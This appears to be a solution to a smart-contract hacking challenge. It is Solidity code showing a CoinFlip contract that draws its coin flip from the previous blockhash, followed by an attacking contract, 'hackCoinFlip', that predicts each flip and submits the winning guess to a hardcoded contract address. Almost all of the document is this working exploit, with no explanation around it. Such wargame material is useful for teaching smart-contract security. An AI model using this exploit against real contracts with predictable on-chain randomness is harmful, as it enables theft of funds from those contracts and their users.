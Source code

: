 ```solidity
    function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}

contract hackCoinFlip {
    struct Coinflip {
        address originalContract;
    }

    CoinFlip public originalContract =
        CoinFlip(0xA62fE5344FE62AdC1F356447B669E9E6D10abaaF);
    uint256 FACTOR =
        57896044618658097711785492504343953926634992332820282019728792003956564819968;

    // use this function if you want to manually enter the value true or false
    // function hackFlip(bool _guess) public {

    //     // pre-deteremine the flip outcome
    //     uint256 blockValue = uint256(blockhash(block.number - 1));
    //     uint256 coinFlip = blockValue / FACTOR;
    //     bool side = coinFlip == 1 ? true : false;

    //     // If I guessed correctly, submit my guess
    //     if (side == _guess) {
    //         originalContract.flip(_guess);
    //     } else {
    //         // If I guess incorrectly, submit the opposite
    //         originalContract.flip(!_guess);
    //     }
    // }

    //else use this function to automaticaly pass what getBool is finding
    function hackFlip() public {
        originalContract.flip(getBool());
    }

    function getBool() public view returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        return side;
    }
}
```
